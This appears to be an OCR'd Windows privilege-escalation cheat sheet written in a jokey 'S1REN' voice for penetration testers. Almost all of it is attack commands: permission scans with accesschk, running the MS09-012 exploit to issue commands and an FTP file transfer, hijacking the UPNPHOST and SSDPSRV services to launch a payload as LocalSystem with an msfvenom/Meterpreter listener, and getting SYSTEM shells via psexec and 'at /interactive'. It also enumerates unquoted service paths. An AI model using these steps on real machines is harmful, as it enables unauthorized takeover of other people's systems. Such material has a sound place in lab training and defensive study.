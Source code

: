 **#Find ALL weak folder permissions, per drive.**  
accesschk.exe -uwdqs Users c:\  
accesschk.exe -uwdqs "Authenticated Users" c:\  
accesschk.exe -uwqs Users c:*.*  
accesschk.exe -uwqs "Authenticated Users" c:*.*  
  
  
+ **Let me guess, you came in as NT AUTHORITY\NETWORK SERVICE** **?**  
MS09-012.exe "whoami"  
Initiate Network-Related Transfer _Again_.  
MS09-012.exe "ftp -v -n -s:ftp.txt" and come back in NT Shell.

  
+ **I enumerated a weak service path on the machine. How do I exploit this... S1REN?**  
sc config UPNPHOST binpath= "C:\Tools\sirenMaint.exe"  
sc config UPNPHOST obj= ".\LocalSystem" password= ""  
sc config SSDPSRV binpath= "C:\inetpub\siren\sirenMaint.exe"  
sc config SSDPSRV obj= ".\LocalSystem" password= ""  
sc config SSDPSRV start= "demand"  
(_Now, Stage matching msfvenom Payload Listener in Meterpreter_)  
net stop SSDPSRV  
net start SSDPSRV  
  
+ **Up to Vista...**  
psexec -i -s cmd.exe  
  
+ **On Windows XP and Older we can get an Administrator Privilege shell.**  

_**-->**_ IF you have a GUI with a USER THAT IS INCLUDED IN THE Administrators GROUP you first  
need to open up cmd.exe for the administrator. If you open up the cmd that is in  
Accessories it will be opened up as a normal user. And if you rightclick and do  
Run as Administrator you might need to know the Administrators password. Which  
you might not know. So instead you open up the cmd from C:\windows\system32\cmd.exe.  
This will give you a cmd with _Administrators Rights_.

**-->** _From here, we want SYSTEM level privileges, no?_  
**-->** First we check what time it is on the local machine.  
time  
**-->** Now we set the time we want the system CMD to start.  
**-->** Probably one minuter after the time.  
at 01:23 /interactive cmd.exe  
**System Shell.**  
  
+ **Ahh, so you're interested in UNQUOTED SERVICE PATHS... eh?**  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\" |findstr /i /v """  
  
**-->** Using SC:  
sc query  
sc qc <service name>  
  
_**-->**_ Okay S1REN, what am I looking for here?  
If the results of the above command's value of path only contains "" and spaces - it's vulnerable.  
  
_**-->**_ Have a hit?  
_**-->**_ Use icacls or cacls.exe (both native to Windows) to check binary permissions.  
icacls "C:\Program Files (x86)\UNQUOTED_SERVICE_PATH_SOFTWARE"  
  